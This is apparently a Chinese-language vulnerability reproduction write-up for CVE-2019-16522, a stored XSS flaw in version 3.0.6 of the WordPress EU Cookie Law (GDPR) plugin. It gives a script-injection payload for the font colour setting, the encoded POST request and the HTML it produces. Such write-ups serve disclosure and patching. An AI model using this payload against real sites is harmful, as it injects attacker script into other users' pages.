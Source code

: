 ```yaml
---
title: "（CVE-2019-16522）WordPress Plugin - EU Cookie Law (GDPR) 储存型xss"
id: zhfly3252
---
```


# （CVE-2019-16522）WordPress Plugin - EU Cookie Law (GDPR) 储存型xss

## 一、漏洞简介

WordPress的3.0.6版eu-cookie-law插件（又称为EU Cookie法（GDPR））容易受到存储XSS的影响，原因是管理区域中几个配置选项的编码不正确以及显示的Cookie同意消息。这会影响“字体颜色”，“背景颜色”和“禁用Cookie”文本。具有高特权的攻击者可以攻击其他用户。

## 二、漏洞影响

wordpress <= 3.0.6，可能更高

## 三、复现过程

```
/wp-admin/options-general.php?page=peadig_eucookie 
```

管理员可以在配置区域为插件设置多个选项。在插入HTML页面之前，大多数都可以正确转义。但是，可以利用三个设置值来插入任意JavaScript和HTML。那些是：

字体颜色（ Font Color）
背景颜色 （Background Color）
“禁用Cookie”文本 （"Disable Cookie" Text）
“ Fontcolor”的值将插入到显示Cookie同意消息的每个页面上。默认情况下，其他两个仅可在管理区域中利用。

以“字体颜色”为例

将字体颜色的值设置为

```
#FFFFFF"><script>alert(1)</script> 
```

便可以突破HTML属性并插入script包含JavaScript 的标签

post包：

```
POST /wp-admin/options.php HTTP / 1.1 
[ ... ] `[ … ] peadig_eucookie％5 Bfontcolor％5 D = ％23FFFFFF％22％3E％3Cscript％3Ealert％281％29％3C / script％3E […]` 
```

这时候我们看一下返回值。

在管理区域中，生成的HTML页面如下所示

```
<input id="fontcolor" type="text" name="peadig_eucookie[fontcolor]" value="#FFFFFF">
<script>alert(1)</script>
" class="color-field" data-default-color="#ffffff"/> 
```

在带有cookie消息的页面上，有效负载将被多次插入。生成的HTML如下所示

```
<!-- Eu cookie Law 3.0.6 -->
<div class="pea_cook_wrapper pea_cook_bottomcenter" style="color:#FFFFFF">
    <script>alert(1)</script>
    ;background:rgb(0,0,0);background: rgba(0,0,0,0.85);"> 
```
